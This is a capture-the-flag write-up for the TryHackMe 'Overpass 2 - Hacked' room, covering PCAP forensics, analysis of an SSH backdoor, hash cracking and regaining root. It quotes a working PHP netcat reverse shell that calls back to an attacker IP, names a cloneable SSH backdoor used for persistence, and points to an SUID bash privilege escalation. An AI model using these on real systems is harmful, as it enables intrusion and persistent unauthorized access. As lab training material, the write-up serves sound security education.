


# Overpass 2 - Hacked

Write-up on the tryhackme ctf.

Scenario: Overpass has been hacked!

## Forensics - Analyze the PCAP

For this task I used Wireshark. At a glance I was able to take an educated guess at which IP was the attacker and which was the victim.

`192.168.170.145` is the attacker

`192.168.170.159` is the target.

### What was the URL of the page they used to upload a reverse shell?


`/development/`

### What payload did the attacker use to gain access?

I looked a bit deeper into the interesting packet from above.


The output contained the following php string, which is a reverse shell that connects back to `192.168.170.145` on port `4242`, confirming my guess that this is the attacker's IP address.

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker use to privesc?

Because the shell is running `nc`, the data being sent between the two machines will not be encrypted. I investigated the TCP stream between the two machines.

 

This shows us the commands sent between the two computers.


The password used in privilege escalation is found here.

```
whenevernoteartinstant
```

### How did the attacker establish persistence?


Looking at the same TCP stream, we see the attacker set up an SSH backdoor by using a program downloaded from the internet.

```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

### Using the fasttrack wordlist, how many of the system passwords were crackable?

Again using the same TCP stream, we see the attacker was able to print the contents of `/etc/shadow`, showing us the hashes of user passwords.


I took this data and formatted it so that it could be cracked using `hashcat`, and stored this in a file called `hashes`.


Then I ran the program and cracked the passwords.




4 passwords could be cracked using the short `fasttrack` list.

## Research - Analyze the code

For this part I went to https://github.com/NinjaJc01/ssh-backdoor

### What's the default hash for the backdoor?


`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?


`1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!

I looked once more at the TCP stream in Wireshark.


`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

I used https://hashes.com/en/tools/hash_identifier to identify the hash type.


The hash needed to be put in a specific format with the hash and the salt.


Again I ran hashcat to crack the password.


`november16` is the password.


##  Attack - Get back in!

The forensics and research part is done, from here onward, this is just like a normal CTF.

I ran an `nmap` scan on the machine to show me open ports and some system information.


### The attacker defaced the website. What message did they leave as a heading?

This can be found by just going to the website.


`H4ck3d by CooctusClan`

### Using the information you've found previously, hack your way back in!

Here, I used the research on the backdoor to make getting into the machine simple.


use `november16`.

### What's the user flag?

Check the `home` directory for `james`.

### What's the root flag?

To get the root flag, we need to get root.

I started by checking what files have the SUID bit turned on and noticed one that was out of the ordinary.


I then ran the script to see what it did. It opens bash.


Using a technique from [gtfobins](https://gtfobins.github.io/gtfobins/bash/#suid), I was able to elevate privileges to root!

